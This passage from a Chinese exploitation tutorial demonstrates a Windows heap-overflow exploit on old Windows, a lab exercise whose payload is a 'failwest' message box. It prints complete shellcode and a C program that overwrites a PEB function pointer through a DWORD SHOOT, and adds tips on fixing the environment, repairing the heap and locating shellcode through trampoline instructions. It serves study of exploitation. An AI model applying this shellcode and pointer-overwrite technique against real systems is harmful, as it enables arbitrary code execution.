"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
"\x88\x06\x52\x00\x20\xf0\xfd\x7f";
运行程序后 发现没用failwest的消息框没有蹦出来这里有一个问题：被我们修改的P.E.B 里的函数指针不光会被ExitProcess()调用，shellcode 中的函数也会使用。当shellcode 的函数使用临界区时，会像ExitProcess()一样被骗。
shellcode 的函数使用临界区时，会像ExitProcess()一样被骗。为了解决这个问题，我们对shellcode 稍加修改，在一开始就把我们DWORD SHOOT 的指针修复回去，以防出错。重新调试一遍，记下0x7FFDF020 处的函数指针为0x77F82091
指令及其机器码
指令|机器码
:-:|:-:
MOV EAX,7FFDF020|”\xB8\x20\xF0\xFD\x7F”
MOV EBX,77F82091|”\xBB\x91\x20\xF8\x77”
MOV [EAX],EBX|”\x89\x18”
总代码如下：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
//repaire the pointer which shooted by heap over run
"\xB8\x20\xF0\xFD\x7F" //MOV EAX,7FFDF020
"\xBB\x91\x20\xF8\x77" //MOV EBX,77F82091 the address may releated to your OS
"\x89\x18" //MOV DWORD PTR DS:[EAX],EBX
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
"\x88\x06\x52\x00\x20\xf0\xfd\x7f";
//0x00520688 is the address of shellcode in first heap block, you have to
//make sure this address via debug
//0x7ffdf020 is the position in PEB which hold a pointer to
//RtlEnterCriticalSection()and will be called by ExitProcess() at last
main()
{
HLOCAL h1 = 0, h2 = 0;
HANDLE hp;
hp = HeapCreate(0,0x1000,0x10000);
h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
memcpy(h1,shellcode,0x200); //overflow,0x200=512
h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
return 0;
}
运行后先是提示有异常:

随便单击“确定”按钮或“取消”按钮之后，显示“failwest”的消息框就会跳出来

堆溢出利用的注意事项
1．调试堆与常态堆的区别
堆管理系统会检测进程是否正在被调试。调试态的堆和常态堆是有很大区别的，没有经验的初学者在做堆溢出实验时往往会被误导去研究调试态的堆。如果您发现自己的shllecode 能在调试器中得到正常的执行，而单独运行程序却失败，不妨考虑一下这方面的问题
2．在shellcode 中修复环境
在劫持进程后需要立刻修复P.E.B 中的函数指针，否则会引起很多其他异常。一般说来，在大多数堆溢出中都需要做一些修复环境的工作。
shellcode 中的第一条指令CDF 也是用来修复环境的。如果您把这条指令去掉，会发现
shellcode 自身发生内存读写异常。这是因为在ExitProcess()调用时，这种特殊的上下文会把通常状态为0 的DF 标志位修改为1。这会导致shellcode 中LODS DWORD PTR DS:[ESI]指令在向EAX 装入第一个hash 后将ESI 减4，而不是通常的加4，从而在下一个函数名hash 读取时发生错误。
在堆溢出中，有时还需要修复被我们折腾得乱七八糟的堆区。通常，比较简单修复堆区的做法包括如下步骤。
（1）在堆区偏移0x28 的地方存放着堆区所有空闲块的总和TotalFreeSize。
（2）把一个较大块（或干脆直接找个暂时不用的区域伪造一个块首）块首中标识自身大小的两个字节（self size）修改成堆区空闲块总容量的大小（TotalFreeSize）。
（3）把该块的flag 位设置为0x10（last entry 尾块）。
（4）把freelist[0]的前向指针和后向指针都指向这个堆块。这样可以使整个堆区“看起来好像是”刚初始化完只有一个大块的样子，不但可以继续完成分配工作，还保护了堆中已有的数据。
3．定位shellcode 的跳板
有时，堆的地址不固定，因此我们不能像本节实验中这样在DWORD SHOOT 时直接使用shellcode 的起始地址。和栈溢出中的jmp esp 一样，经常也会有寄存器指向堆区离shellcode 不远的地方。比如David Litchfield 在blackhat 上的演讲中指出的在利用U.E.F 时可以使用几种指令作为跳板定位shellcode，这些指令一般可以在netapi32.dll、user32.dll、 rpcrt4.dll 中搜到不少，代码如下所示。
1 | CALL DWORD PTR [EDI + 0x78] |
4．DWORD SHOOT 后的“指针反射”现象
回顾前面介绍DWORD SHOOT 时所举的例子：1
2
3
4
5
6int remove (ListNode * node)
{
node -> blink -> flink = node -> flink;
node -> flink -> blink = node -> blink;
return 0;
}
其中，node -> blink -> flink = node -> flink 将会导致DWORD SHOOT。细心的读者可能会发现双向链表拆除时的第二次链表操作node -> flink -> blink = node -> blink 也能导致DWORDSHOOT。这次，DWORD SHOOT 将把目标地址写回shellcode 起始位置偏移4 个字节的地方。把类似这样的第二次DWORD SHOOT 称为“指针反射”。